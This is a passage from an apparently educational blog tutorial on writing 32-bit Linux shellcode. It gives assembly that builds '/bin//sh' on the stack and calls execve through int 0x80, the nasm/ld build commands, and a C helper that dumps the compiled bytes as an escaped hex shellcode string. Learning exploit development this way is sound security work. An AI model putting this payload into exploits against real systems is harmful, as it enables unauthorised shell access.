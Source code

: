 Once again we can use our EAX register.
MOV ECX, EAX

Finally we assign EAX:
MOV AL, 0xb

And do the syscall;
INT 0x80
This leaves us with the following code:

{% highlight nasm lineos %}
section .text
  global _start

_start:
  xor eax, eax
  push eax
  push 0x68732f2f
  push 0x6e69622f
  mov ebx, esp
  mov ecx, eax
  mov al, 0xb
  int 0x80
{% endhighlight %}

## Extracting the Shellcode
Now let's compile it
`nasm -f elf -o shell.o shell.asm`
`ld -o shell shell.o`

Now to get the shellcode I wrote this C program:
{% highlight c lineos %}
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main(int argc, char *argv[])
{
        char l = 1;
        unsigned char buf;
        int fd;
        fd = open(argv[1],0,S_IRUSR);
        while(read(fd,&buf,1)) {
                if(buf == 0 && l == 1) {
                        printf(" \n");
                        l = 0;
                }
                else if(buf) {
                        printf("\\x%02x",buf);
                        l = 1;
                }
        }

        close(fd);
}
{% endhighlight %}
It will ignore caves of nullbytes and only show continues hexdumps.
One of these lines is your shellcode.
